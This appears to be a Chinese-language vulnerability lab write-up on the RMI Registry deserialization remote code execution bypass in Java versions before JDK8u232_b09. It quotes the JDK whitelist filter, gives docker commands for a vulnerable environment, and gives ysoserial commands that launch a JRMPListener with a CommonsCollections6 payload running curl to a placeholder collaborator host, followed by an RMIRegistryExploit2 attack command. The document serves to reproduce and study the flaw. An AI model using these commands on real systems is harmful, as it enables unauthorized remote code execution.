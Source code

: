 # Java < JDK8u232_b09 RMI Registry 反序列化远程代码执行绕过

Java Remote Method Invocation（RMI）是Java中用于远程过程调用的机制。尽管远程绑定通常是被禁用的，但RMI Registry中包含一个可被利用的远程绑定功能。攻击者可以在绑定过程中，通过伪造序列化数据（实现Remote接口或动态代理实现了Remote接口的对象），使Registry在对数据进行反序列化时触发相应的利用链。

自JDK 8u121起，Registry对反序列化的类实施了白名单限制：

```java
if (String.class == clazz
        || java.lang.Number.class.isAssignableFrom(clazz)
        || Remote.class.isAssignableFrom(clazz)
        || java.lang.reflect.Proxy.class.isAssignableFrom(clazz)
        || UnicastRef.class.isAssignableFrom(clazz)
        || RMIClientSocketFactory.class.isAssignableFrom(clazz)
        || RMIServerSocketFactory.class.isAssignableFrom(clazz)
        || java.rmi.activation.ActivationID.class.isAssignableFrom(clazz)
        || java.rmi.server.UID.class.isAssignableFrom(clazz)) {
    return ObjectInputFilter.Status.ALLOWED;
} else {
    return ObjectInputFilter.Status.REJECTED;
}
```

我们需要在这些白名单类中找到可利用的类。详细原理请参考[浅谈RMI Registry反序列化问题](https://blog.0kami.cn/blog/2020/rmi-registry-security-problem-20200206/)。

参考链接：

- <https://blog.0kami.cn/blog/2020/rmi-registry-security-problem-20200206/>
- <https://github.com/wh1t3p1g/ysoserial>

## 环境搭建

执行如下命令编译及启动RMI Registry和服务器：

```
docker compose build
docker compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

将`your-ip`替换为你的服务器IP地址，客户端将使用此IP连接服务器。

环境启动后，RMI Registry将监听在1099端口。

## 漏洞复现

使用[ysoserial](https://github.com/wh1t3p1g/ysoserial)的exploit包中的RMIRegistryExploit2或RMIRegistryExploit3进行攻击：

```bash
# 启动JRMPListener
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "curl http://xxxxx.burpcollaborator.net"
# 发起攻击
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit2 192.168.31.88 1099 jrmphost 8888
```

![](1.png)

Registry会返回报错，这是正常现象，命令仍会成功执行。
